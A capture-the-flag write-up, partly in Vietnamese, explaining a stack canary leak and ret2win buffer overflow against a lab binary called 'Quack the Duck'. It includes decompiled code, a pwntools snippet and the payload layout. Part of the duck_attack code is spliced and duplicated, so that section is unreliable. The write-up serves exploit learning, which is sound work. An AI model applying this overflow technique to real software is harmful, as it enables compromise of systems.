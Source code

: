 # Enumeration

First of all, we start with a `checksec`:  

![Screenshot from 2025-03-27 00-38-37](https://github.com/user-attachments/assets/3920eca5-f740-4ad0-ad07-975e511cdbbb)

The stack Canary was enable to prevent buffer overflow attack.
To bypass that, we need to know the value of Canary and override with its value. if not, the program will detect canary changing, so we will fail and get:

`` *** stack smashing detected ***: terminated crash..``

### Disassembly

Starting with `main()`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  duckling(argc, argv, envp);
  return 0;
}

```

As we can see, `main` only calls `duckling()`. Taking a look there.

```c
unsigned __int64 duckling()
{
  char *v1; // [rsp+8h] [rbp-88h]
  _QWORD buf[4]; // [rsp+10h] [rbp-80h] BYREF
  _QWORD v3[11]; // [rsp+30h] [rbp-60h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(v3, 0, 80);
  printf("Quack the Duck!\n\n> ");
  fflush(_bss_start);
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  if ( !v1 )
  {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, v3, 0x6AuLL);
  puts("Did you really expect to win a fight against a Duck?!\n");
  return v4 - __readfsqword(0x28u);
}
```

As we can see, there are 2 buffers, `buf[4]` and `v3[11]` of unknown size so far. The juice of the challenge is these 2 lines:

```c
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```

Our first input goes to `buf` and we get a leak of `v1 + 32`. That means we can leak up to `32` from the end of the buffer 
where the string `Quack Quack ` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset when debug.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator\n");
    exit(1);
  }
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  return v3 - __readfsqword(0x28u);
}
```

### Debugging 
I used IDA pro, so it automatically debug and find the address of variables for me. You can see that on the comments of the disassembled code.

Now, to prove all this theory we can check the debugging. 
```
Địa chỉ cao    +----------------+
               | Địa chỉ trở về |
        rbp -> +----------------+
               |Canary[rbp-0x8] |  <-- v4
               +----------------+
               |                |
               |     .....      |  (các biến khác, padding)
               |                |
               +----------------+
               |                |
               |   buf[rbp-0x80]    |  <-- buf[4] bắt đầu từ [rbp-0x80]
               |                |
               +----------------+
               |                |
        rsp -> +----------------+
Địa chỉ thấp
```
![image](https://github.com/user-attachments/assets/543c1298-bbd7-4150-92b8-1616e78584cb)

So the distance between Canary and buf is `0x80-0x8 = 0x78` bytes. But, to override the Canary, we need one more byte so need to pass 121 bytes to get Canary leak.
And then `\x00` is overrided which is the last byte of canary.
```c
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```
Thus, `v1+32=121` and  v1 is the first letter that is found from input. 
So we need to send:
`89*'A' + "Quack Quack "(12 bytes) = total 101 bytes = 0x65`
```python
r.sendlineafter('> ', b'A'* (0x65 - len('Quack Quack ')) + b'Quack Quack ')

r.recvuntil('Quack Quack ')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

After have Canary value, we calculate the distance between the second input and the canary as the previous one.
`0x60-0x8= 88 bytes`. This time we dont need to plus 1 byte because we have the canary value.
So the payload is:
`88*'A' + Canary + 8 bytes (save rbp) + return address(duck_attack)`.
In my code, i write `canary*2`. because one for canary, one for override the 8 bytes save rbp.

# Result
![image](https://github.com/user-attachments/assets/60d16b42-810e-4b92-acc2-8eedfdfa18f2)


